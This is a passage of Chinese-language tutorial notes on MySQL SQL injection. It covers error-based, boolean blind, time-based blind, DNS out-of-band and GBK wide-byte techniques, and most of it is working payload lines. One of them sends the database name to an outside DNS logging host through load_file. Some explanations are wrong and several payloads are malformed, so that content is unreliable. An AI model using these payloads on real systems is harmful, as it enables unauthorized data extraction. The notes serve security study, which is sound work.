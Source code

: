 #### 3.报错注入

​		1.floor() 函数用法

select count(\*) from information_schema.tables group by concat((select user()),floor(rand(0)\*2)));

rand() 函数返回0到1之间的小数 使用floor(rand(0)*2)让语句返回0或1让count函数统计数量的时候 group by排序出现重复的键进行报错 

​		2. extractvalue() 用法

select extractvalue(1,concat(0x7e,(select user()),0x7e)); 

extractvalue() 第一个参数xml文档 第二个参数为xpath语句 此处使用concat是为了让语句返回完整的信息不使用concat查询出来的信息不符合xpath格式的信息会被过滤掉

​		3.updatexml()函数用法

select updatexml(1,concat(0x7e,(select user()),0x7e),1);

updatexml()第一个参数为xml文档 第二个参数为xpath语句第三个为字符串用法和extractvalue()一样

#### 4.布尔盲注

布尔盲注是通过构造语句,来判断数据库信息的正确性,再通过页面的"真" 和 "假"来识别我们的判断是否正确

1.   left(''abcd",2)取左两个字符用法 left(database(),1)='s';

2.   regexp 正则函数    select user() regexp '^r': 

3.   like select user() like 'r%'

4.   sustr()，substring() ascii()函数 ascii(substr((select user()),1,1))=98 

​      substr()和substring(),第一个参数字符串 第二个参数为开始截取位置 第三个参数为截取数量,ascii() 计算字符串的ASCII码值

       5. ord() mid() 函数  ord(mid(select user()),1,1)=114

ord()函数第一个参数为字符串 第二个参数为截取起始位置,第三个参数为截取数量 mid()函数 可以把字符转换为ascii码

#### 5.时间盲注

使用if语句判断执行的sql查询语句的真假来进行时间盲注

sleep(3)  select if(substr((select user()),1,1)="e",0,sleep(3));

​	select if(substr((select user()),1,1)="e",0,benchmark(50000000,1*2));

#### 6.Dns盲注

核心语法 select load_file(concat('\\\\\\\\ ,(select database()),'.mysql.r4ourp.ceye.io\\\\ abc'));

通过查询语句load_file() 带入数据库让数据库对dns平台发起请求来实现dns盲注使用load_flie() 函数进行dns盲注只能用于目标机为windows

#### 7.宽字节注入

编码为 GB2312,GBK,GB18030,BIG5,Shift_JIS这些都是常说的宽字节,实际为两字节

通常进行sql注入的时候为了闭合原有引号会输入一个引号 当输入'的时候会被处理为

\\' 被转义了编码过后会变成 %5C%27

mysql使用GBK编码的时候会认为两个字符为一个汉字这时我们使用 %df 与转移符号\\进行组合成一个汉字 就会绕过转义 与转移字符组成汉字的时候前一个字符的Ascii码必须大于128才能与转义字符组合成汉字 
